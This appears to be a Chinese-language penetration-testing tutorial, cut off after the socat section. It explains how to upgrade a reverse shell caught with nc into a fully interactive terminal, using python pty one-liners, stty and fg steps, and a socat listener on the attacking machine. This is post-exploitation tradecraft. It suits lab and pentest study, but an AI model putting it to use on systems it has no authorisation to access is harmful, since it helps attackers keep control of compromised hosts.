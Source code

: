 假设一个情况：如果当前拿到shell之后，我们想要使用vim、su或者想要tab补全代码、ctrl c结束当前行代码、或者使用快捷键使用上一条命令，这个时候这个shell并不会对我们的操作进行响应，那么这个时候就需要升级shell成为交互式完美shell，使其跟我们常规命令行操作一样

## python pty

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

```python
python3 -c "__import__('subprocess').call(['/bin/bash'])"
```

但是当前情况还是不能补全代码，得用stty来进行优化，来转换成完美shell

在执行完python命令之后，按下Ctrl+z

```
Linux 中Ctrl + c/d/z 看着都差不多，但是还是有不一样的含义
Ctrl + c 强制中断程序的执行，进程终止
Ctrl + d 发送EOF信号，很多程序接到这个信号后会停止
Ctrl + z 将任务中止，其实就是将这个任务暂停
```

按下Ctrl+z之后，nc反弹的shell放入了后台，界面退回到了攻击主机原本的shell

- `echo $TERM` 获取 term值
- `stty -a` 获取 rows 和 columns 的值

- `stty raw -echo` 关闭输入回显
- `fg` 进入前台，就是把刚才中止的nc连接捡回来

- `reset`
- `export SHELL=bash`
- `export TERM=[前面获取的term值]`
- `stty [前面获取的rows和columns值]`

这一套在ios系统里面不起作用，但在kali当中时可以完全解决的。

## 升级nc为交互shell

老实话没有什么区别，就上面那样，一样的。

## 使用socat

[socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)是类Unix系统下的一个工具，可以看作是 nc 的加强版。我们可以使用socat来传递完整的带有tty的TCP连接。缺点也很明显，只能在linux下面运行。

攻击机：

```
# 首先安装
$ sudo apt install socat
# 执行
$ socat file:`tty`,raw,echo=0 tcp-listen:[port]
```
